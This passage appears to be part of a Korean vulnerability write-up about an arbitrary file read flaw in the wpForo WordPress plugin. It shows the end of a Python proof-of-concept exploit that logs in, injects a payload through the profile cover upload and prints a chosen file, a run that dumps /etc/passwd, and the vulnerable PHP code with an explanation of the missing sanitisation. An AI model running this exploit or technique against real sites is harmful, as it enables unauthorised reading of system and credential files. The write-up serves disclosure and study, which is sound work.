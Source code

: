 ```python
        pprint(f"[green][+] Printing contents of {file}[/green]\n\n")
        print(r.text)
    else:
        pprint(f"[red][-] Couldn't fetch file contents[/red]")
        exit(1)

if __name__=="__main__":
    args = parser()
    exploit(args.ip,args.port,args.location,args.user,args.password,args.file)
```

f 옵션에 파일의 경로를 넣어 전달하면 임의의 파일을 읽을 수 있다.

```bash
python poc.py -i http://localhost:8000/ -p 8000 -u root -q 1234 -f /etc/passwd
[*] Logging in
[+] Logged in
[+] Injecting payload
[+] Injected payload successfully
[+] Printing contents of /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```

## **4. Analysis**

`wpforo_profile_cover_upload` 액션에서 `image_blob`으로 받은 데이터를 쉼표를 기준으로 분리하지만 쉼표가 없을 경우 `image_blog` 의 값이 살균 과정 없이 사용되기 때문에 취약점이 발생했다고 볼 수 있다.

```php
// wpforo/classes/Actions.php

public function profile_cover_upload() {

		wpforo_verify_nonce( 'wpforo_profile_cover_upload' );

        if( WPF()->current_object['user'] && WPF()->usergroup->can( 'upc' ) && WPF()->perm->user_can_edit_account( WPF()->current_object['user'] ) && ($image_blob = wpfval( $_POST, 'image_blob' )) ){

            // split the base64 encoded string:
            // $data[ 0 ] == "data:image/png;base64,/xd92204dsdds1...."
            // $data[ 1 ] == <actual base64 string>
            $data = explode( ',', $image_blob );
            if( isset( $data[1] ) ){
                // Decode it back to binary
                $file_content = base64_decode($data[1]);
            } else {
                // This part can be removed, I just leave it for an unknown case
```